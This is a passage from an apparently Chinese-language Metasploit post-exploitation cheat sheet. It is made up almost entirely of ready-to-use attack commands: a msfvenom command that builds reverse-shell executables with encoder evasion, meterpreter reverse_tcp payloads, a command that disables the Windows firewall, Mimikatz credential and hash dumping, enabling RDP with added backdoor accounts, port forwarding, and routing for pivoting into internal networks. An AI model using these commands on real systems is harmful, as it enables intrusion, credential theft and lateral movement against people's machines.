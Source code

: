 如:

```
msfvenom -p 'payload' '-e x86/shikata_ga_nai -i 5(混淆/可选)' lhost=[IP] lport=[端口] -f exe > name.exe
payload/android/meterpreter/reverse_tcp
payload/linux/x64/meterpreter_reverse_tcp
payload/python/meterpreter/reverse_tcp
payload/windows/meterpreter/reverse_tcp
payload/windows/x64/meterpreter/reverse_tcp
```

3.关闭防火墙：netsh advfirewall set allprofiles state off

4.获取系统密码： Mimikatz模块使用

```
meterpreter > load mimikatz #加载mimikatz
meterpreter > msv #获取hash值
meterpreter > kerberos #获取明文
meterpreter > ssp #获取明文信息
meterpreter > wdigest #获取系统账户信息
```

5.获取远程桌面：开启3389服务

```
run getgui -h #查看帮助
run getgui -e #开启远程桌面
run getgui -u lltest2 -p 123456 #添加用户
run getgui -f 6661 -e #3389端口转发到6661
run getgui -f 6661 -e #3389端口转发到6661
```
getgui系统不推荐,推荐使用`run post/windows/manage/enable_rdp`
getgui添加用户时，有时虽然可以成功添加用户，但是没有权限通过远程桌面登陆

```
run post/windows/manage/enable_rdp #开启远程桌面
run post/windows/manage/enable_rdp USERNAME=www2 PASSWORD=123456 #添加用户
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662 #将3389端口转发到6662 
```

6.端口转发：portfwd

端口转发靶机3389端C转发送本地的5555端口
`portfwd add -l 5555 -p 3389 -r 127.0.0.1`

攻击者连接本地127.0.0.1的5555端口，kali的rdesktop远程连接
`rdesktop -u root -p toor 127.0.0.1:5555`

7.路由设置

例如：Hacker添加去往目标网段(10.10.10.0/24) 的静态路由

run autoroute -s 10.10.10.0/24 
run autoroute -p查看是否添加成功

8.session 切换

```
>backgroup #当前会话加入后台
>session -i #所有会话信息
>session -i number #切换会话
```
